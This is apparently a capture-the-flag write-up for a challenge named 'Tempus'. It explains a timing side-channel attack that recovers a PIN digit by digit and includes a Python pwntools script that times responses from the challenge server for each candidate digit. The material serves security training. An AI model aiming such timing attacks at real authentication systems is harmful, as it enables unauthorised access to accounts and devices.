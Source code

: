## Tempus

Tempus was quickly identified as a timing side channel (due to the name and the nature of the challenge).
All that was necessary was to measure the time between sending a character and retrieving a response. 

Doing this iteratively for all digits, would reveil one taking longer than the others. This was the correct digit for this location (most likely due to the algorithm going further in the computation).
Multiple repetitions were introduced to improve the accuracy and remove random fluctuations. The code below could be used to retrieve the pin iteratively.

```py
from pwn import *
import string
import numpy as np
import time

# Start timing
context.log_level = 'error'

HOST = "5dd561fc7be6e6a81a6f9aa198eac524.chal.ctf.ae"

results = {}
prev = "56295141"

repetitions = 5

for pinnum in range(10):
    duration = 0
    for l in range(repetitions):
        r = remote(HOST, 443, ssl=True, sni=HOST)
        prints = r.readline()
        start_time = time.perf_counter()
        r.sendline(bytearray(prev + str(pinnum), "ascii"))
        r.readline()
        r.readline()
        end_time = time.perf_counter()
        duration += (end_time - start_time) * 1000
        r.close()

    print(f"{pinnum} took {duration / repetitions} ms")
```
